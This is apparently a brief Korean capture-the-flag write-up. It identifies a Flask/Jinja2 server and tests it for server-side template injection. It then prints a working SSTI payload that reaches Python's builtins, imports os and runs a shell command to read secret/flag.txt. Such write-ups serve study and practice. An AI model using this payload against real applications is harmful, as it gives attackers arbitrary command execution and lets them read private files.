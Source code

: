 노출되는 Werkzerg 서버를 보면 Python Flask 서버라는것을 알수있음(이미 소스를 받아서 확인가능)
Jinja2 Flask 탬플릿 랜더링 유츄가능

SSTI 취약점 확인 시도
![img_8.png](img_8.png)

취약점 확인 후 Flag 추출 시도. flag.txt 경로는 app.py 내 존재함
{{ self._TemplateReference__context.cycler.__init__.__globals__['__builtins__']['__import__']('os').popen('cat secret/flag.txt').read() }}

![img_9.png](img_9.png)